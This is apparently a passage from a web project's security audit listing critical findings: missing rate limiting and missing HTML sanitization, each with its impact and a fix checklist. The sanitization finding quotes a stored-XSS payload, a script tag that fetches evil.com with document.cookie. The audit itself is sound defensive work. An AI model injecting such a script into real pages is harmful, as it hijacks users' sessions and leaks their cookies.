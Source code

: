 **Impact**:

- Service disruption
- Cost explosion
- Failed SOC2 audit
- Potential data breach

**Fix Required**:

- [ ] Integrate rate limiter into tRPC middleware (IMMEDIATE)
- [ ] Add rate limiting to NextAuth routes
- [ ] Test rate limiting with load tests
- [ ] Add Redis for production (Phase 9)
- [ ] Document rate limits in API docs

**Timeline**: Before any API endpoints go live

---

### 2. No Input Sanitization for User Content

**Status**: 🔴 CRITICAL  
**Risk**: XSS attacks, injection attacks

**Current State**:

- ✅ Zod validates types and formats
- ✅ MongoDB uses parameterized queries (no SQL injection)
- ❌ No HTML sanitization for user-generated content
- ❌ No output encoding
- ❌ CSP headers exist but not tested

**Attack Scenario**:

```
User submits prompt: "<script>fetch('evil.com?cookie='+document.cookie)</script>"
→ Stored in database
→ Rendered to other users
→ Session hijacking
→ Account takeover
```

**Impact**:

- XSS attacks
- Session hijacking
- Data exfiltration
- Failed penetration test

**Fix Required**:

- [ ] Add DOMPurify for HTML sanitization (IMMEDIATE)
- [ ] Implement output encoding helpers
- [ ] Test CSP headers block inline scripts
- [ ] Add XSS tests to security suite
- [ ] Document sanitization strategy

**Timeline**: Before any user-generated content is displayed

---